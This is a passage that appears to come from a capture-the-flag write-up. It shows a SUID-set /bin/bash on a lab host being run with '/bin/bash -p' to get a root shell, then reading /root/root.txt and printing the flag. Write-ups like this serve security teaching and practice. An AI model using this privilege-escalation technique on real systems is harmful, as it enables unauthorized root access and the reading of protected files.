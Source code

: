 Now, Let's look at ```/bin/bash``` permission:
```console
www-data@pki:/tmp/pwn$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Great, Now let's run ```/bin/bash -p``` to get the root flag:
```console
www-data@pki:/tmp/pwn$ /bin/bash -p
/bin/bash -p
bash-4.4# whoami
whoami
root
bash-4.4# cat /root/root.txt
cat /root/root.txt
18dfb4f7a9871458a34beb51f817294a
```

And we get the root flag ```18dfb4f7a9871458a34beb51f817294a```.

